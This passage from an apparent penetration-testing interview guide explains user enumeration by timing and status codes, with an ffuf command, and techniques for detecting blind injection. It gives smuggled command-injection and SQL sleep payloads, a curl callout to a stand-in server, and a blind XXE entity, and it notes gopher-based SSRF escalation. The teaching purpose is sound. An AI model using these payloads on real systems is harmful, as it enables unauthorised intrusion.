 Even if it's not directly possible to see if user exists or not, there could be a way to still enumerate -> via the response time. Especially, when the target interacts with external server (for example), which could add some hundreds miliseconds to the response time.

#### 5) HTTP status code.

Let's say we know the endpoint for users profile - `/account/user1337`.
If the user exists, the webserver will throw either 200 OK (We can see the profile), or it will throw a 403 Forbidden (we can't see the profile). Let's say that it will be 403 Forbidden, because the application is supposed to be anonymous.


We can still simply try to write non-existent user, like `/account/4fewrfwefewfew46few64`.

If the response is different from 403 forbidden, such as 404 not found, we can then easily fuzz it, via `ffuf` for example.
`ffuf -w usernames.txt -u https://freeoscp.net/account/FUZZ -fw 404`




## 48. Name some techniques to detect blind/inferential command injection vulnerabilities.

#### 1) SLEEP

`sleep` is a command that is actually used in UNIX systems (OS command injection, as well as in SQL (SQL injection). How it works? It's simple, we issue a sleep command to whatever seconds you want (let's say 5) and if the response load time is 5 seconds, it's vulnerable.

**OS command injection** - ``127.0.0.1 ; sleep 5`
**SQL injection** - `page='AND SLEEP(5)`


#### 2) OOB method (out-of-band)

With this method, we make the target to make a request to our controlled server, to prove that it is, in fact, vulnerable. This can be done for blind SSRF, Command injection, XXE and also blind XSS.

**Blind SSRF**
1) We need to make sure we have a port-forwarded host, or that we are using something like interactsh, or beeceptor.
`?url=https://our-server.net/hi` -> If we can get a request back (so called pingback), it's vulnerable.
We can also try `gopher://`, which can turn blind SSRF into juicy RCE. If gopher is allowed, we can do an attack called XSPA, which basically scans for open ports. Based on what is open, we might exploit it further. To automate the exploitation stuff, we can use this tool, called gopherus. :
 https://github.com/tarunkant/Gopherus
 https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/ - blog


**OS command injection** - `127.0.0.1 ; curl our-server.net`

**Blind XXE**

The exploit works like blind SSRF, we just need to add a little bit of XML along the way : 
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://our-server.net"> ]>

<message>
	<time>&xxe;</time>
	<content>haha</content>
	<messager>1337</messager>
</message>
```
If we get a pingback, we confirm that the vulnerability exists.
